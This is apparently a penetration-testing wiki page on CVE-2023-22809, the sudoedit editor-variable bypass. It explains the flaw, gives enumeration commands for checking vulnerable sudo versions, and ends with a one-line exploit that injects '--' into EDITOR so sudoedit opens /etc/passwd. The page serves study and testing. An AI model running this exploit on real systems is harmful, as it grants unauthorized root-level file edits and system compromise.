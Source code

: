 ```yaml
---
description: CVE-2023-22809
---
```


# Sudoedit Bypass

## Theory

Sudo uses user-provided environment variables to let its users select their editor of choice. The content of these variables extends the actual command passed to the sudo_edit() function. However, the
latter relies on the presence of the `--` argument to determine the list of files to edit. The injection of an extra `--` argument in one of the authorized environment variables can alter this list and lead to privilege escalation by editing any other file with privileges of the RunAs user. This issue occurs after the sudoers policy validation. - [Synacktiv](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)  

The vulnerability affect sudo versions **1.8.0** to **1.9.12p1**.  
  
## Practice

{% tabs %}
{% tab title="Enum" %}
To exploit, sudo version must be vulnerable (**1.8.0** to **1.9.12p1**)
```bash
$ sudo -V
Sudo version 1.8.0
```

You must be able to run sudoedit with sudo
```bash
$ sudo -l
[sudo] password for user:
Matching Defaults entries for user on vulnserver:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on vulnserver:
    (ALL:ALL) sudoedit /etc/custom/service.conf
```

And env_delete shouldn't be set to affected variables:
```bash
env_delete+="SUDO_EDITOR VISUAL EDITOR"
```

{% endtab %}

{% tab title="Exploit" %}
To exploit we can just use the following command:
```bash
EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}
